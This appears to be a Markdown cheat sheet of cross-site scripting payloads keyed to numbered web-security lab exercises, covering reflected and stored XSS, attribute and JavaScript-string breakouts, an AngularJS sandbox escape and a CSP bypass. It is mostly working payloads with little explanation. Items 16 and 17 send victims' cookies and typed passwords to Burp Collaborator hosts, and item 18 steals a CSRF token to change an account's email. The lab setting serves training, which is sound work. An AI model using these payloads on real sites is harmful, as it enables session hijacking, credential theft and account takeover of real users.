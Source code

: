
xss

## XSS TEST CASES FOR BOTH STORED AND REFLECTED XSS:-
1: # Reflected XSS into HTML context with nothing encoded.
2: # Stored XSS into HTML context with nothing encoded.
3: # Reflected XSS into HTML context with most tags and attributes blocked.
4: # Reflected XSS into HTML context with all tags blocked except custom ones.
```
payload encoded: 
<script> location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'; </script>
```
without encoded:
```
<script> location = 'https://your-lab-id.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x'; </script>

```
5: # Reflected XSS with event handlers and  `href`  attributes blocked.
```
payload encoded:
%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```
without encoded:
```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```
6: # Reflected XSS with some SVG markup allowed:
payload encoded:
```
%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
```
without endoded:
```
"><svg><animatetransform onbegin=alert(1)>
```
## XSS in HTML tag attributes:
When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:
```
"><script>alert(document.domain)</script>
```
## XSS in HTML tag attributes

When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:

`"><script>alert(document.domain)</script>`

More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler. For example:
```
" autofocus onfocus=alert(document.domain) x="
```
7: # Reflected XSS into attribute with angle brackets HTML-encoded:
if the angle brackets <> become  encoded than use this payload:
```
"onmouseover="alert(1)
```
8: # Stored XSS into anchor `href`  attribute with double quotes HTML-encoded:
```
payload: javascript;alert(1);
```
9: # Reflected XSS into a JavaScript string with single quote and backslash escaped:
```
payload: </script><script>alert(1)</script>
```
10: # Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped:
```
payload: \'-alert(1)//
```
11: # Stored XSS into  `onclick`  event with angle brackets and double quotes HTML-encode
```
payload: http://foo?&apos;-alert(1)-&apos;
```
12: # Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped:
```
paylaod: ${alert(1)}
```
13: # Reflected XSS in a JavaScript URL with some characters blocked:
```
paylaod: &%27},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```
14: ## Reflected XSS with AngularJS sandbox escape without strings:
```
paylaod:1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
15: # Reflected XSS protected by CSP, with CSP bypass:
```
payload: <script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
```
16: # Exploiting cross-site scripting to steal cookies:
```
payload: 
<script>
fetch('https://rpktwfkqnwpoyp0tk6x47c6ct3ztni.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
17: # Exploiting cross-site scripting to capture passwords:
```
payload:
 <input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```
18: # Exploiting XSS to perform CSRF:
```
payload:
<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>
```


Markdown 4454 bytes 508 words 108 lines Ln 1, Col 0HTML 3796 characters 465 words 61 paragraphs
